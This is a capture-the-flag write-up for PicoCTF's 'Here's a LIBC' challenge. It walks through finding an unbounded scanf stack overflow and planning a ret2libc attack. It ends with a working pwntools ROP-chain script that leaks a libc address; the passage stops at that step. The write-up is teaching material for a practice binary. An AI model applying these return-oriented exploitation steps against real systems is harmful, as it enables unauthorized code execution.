

# Here's a LIBC
## Write-up of the PicoCTF Binary Exploitation Challenge


## Setup

3 files are provided to us for the challenge and the address
to the server is also provided.

Lets download the files and try to run the binary


We get a crash
This occurs because our linker is a newer version than the libc provided


We can fix this using pwninit which will automatically take care of this


This fixed the problem


## Analysis

Lets open the binary in Ghidra and take a look at whats going on


There is no input being taken in the main function but we see another function
Lets check it out


This looks like what we are looking for  
I have retyped some variables so its easier to understand  
As we can see there is no bound checking on the scanf input  
We can easily overflow the buffer since scanf will take an input until it encounters a newline


Sure enough, we get a segmentation fault and the program crashes  

Lets check the protections on the binaries



The stack is not executable so we can't execute shellcode pushed onto it  
PIE is off for vuln meaning addresses won't change for the binary on each execution  
This means we can easily leak an address from libc and use it to return to libc


## Exploitation

Lets open the binary in GDB and find exactly where we overwrite RIP


Now we need to find some ROP Gadgets to leak the address of a function in libc  
We can use pwntools ROPgadget for this  
  
We will use the puts() function to print out an address in libc so we also need the address of puts@plt
We can leak the address of any function inside libc. I have chosen setbuf()

To print the address of setbuf() in libc we need to pass the address of setbuf@got to puts()  
For this we will need to find a ROP Gadget that will allow us to modify RDI


Now that we have found the relevant addresses we can leak the address of setbuf() inside libc

```py
import pwnlib.util.packing as pack
from pwn import log, process, remote

p = process("./vuln")  # Local binary

padding = b"A" * 136
pop_rdi = 0x400913  # ROP Gadget for popping rdi
setbuf_at_got = 0x601028  # Address of setbuf() in GOT
puts_at_plt = 0x400540  # Address of puts() in PLT
main = 0x400771  # Address of main for returning safely after leaking setbuf() address in libc

# ? Craft the payload to leak address of setbuf in libc
payload = padding  # Pad the stack until the stored RIP
payload += pack.p64(pop_rdi)  # Set the address of setbuf() in GOT as the first argument of puts()
payload += pack.p64(setbuf_at_got)  # This will be the first argument of puts()
payload += pack.p64(puts_at_plt)  # Call puts()
payload += pack.p64(main)  # Return to main() so the program doesnt crash

# ? Send the payload
p.sendline(payload)
p.recvline()  # Discard data we dont need
p.recvline()  # Discard data we dont need
leak = pack.u64(p.recvline().strip().ljust(8, b"\x00"))  # Format the address of setbuf() properly
log.info(f"Leaked setbuf Address -> {hex(leak)}")
```


